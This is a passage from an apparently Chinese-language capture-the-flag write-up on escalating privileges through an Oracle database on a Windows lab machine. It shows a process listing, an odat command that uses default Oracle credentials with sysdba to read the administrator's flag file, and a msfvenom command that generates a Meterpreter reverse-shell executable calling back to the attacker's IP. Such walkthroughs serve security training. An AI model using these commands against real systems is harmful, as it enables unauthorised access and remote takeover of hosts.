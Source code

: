成功拿到 system 权限。

## Oracle进程提权

判断Oracle运行权限，除了内核提权外还可以通过Oracle权限进行反弹，查看进程

```
PS C:\Windows\system32> tasklist /v

Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title
========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
System Idle Process              0 Services                   0          4 K Unknown         NT AUTHORITY\SYSTEM                                   202:51:56 N/A
System                           4 Services                   0        276 K Unknown         NT AUTHORITY\SYSTEM                                     0:23:07 N/A
...snip...
oracle.exe                    1136 Services                   0    638,440 K Unknown         NT AUTHORITY\SYSTEM                                     1:37:10 N/A
OraClrAgnt.exe                1264 Services                   0      2,484 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:00 N/A
TNSLSNR.EXE                   1280 Services                   0     20,760 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:10 N/A
...snip...
w3wp.exe                      1688 Services                   0     31,192 K Unknown         IIS APPPOOL\DefaultAppPool                              0:00:00 N/A
...snip...
```

在进程中并未发现 Oracle 进程由哪个用户运行，但是我们可以尝试读取root.txt

```
root@kali# odat ctxsys -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --getFile c:\\users\\administrator\\desktop\\root.txt

[1] (10.10.10.82:1521): Read the c:\users\administrator\desktop\root.txt file on the 10.10.10.82 server
[+] Data stored in the c:\users\administrator\desktop\root.txt file (escape char replace by '\n'):
CD39EA0A..
```

结果显示可以读取 root.txt，说明 Oracle 进程为管理员权限及以上。

下面我们借助MSF提权，使用msfvenom 生成 exe 形式反弹木马

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=7777 -f exe -o shell.exe
```

![截图](d3b372a8b39442d5a412e313a0074f8d.png)
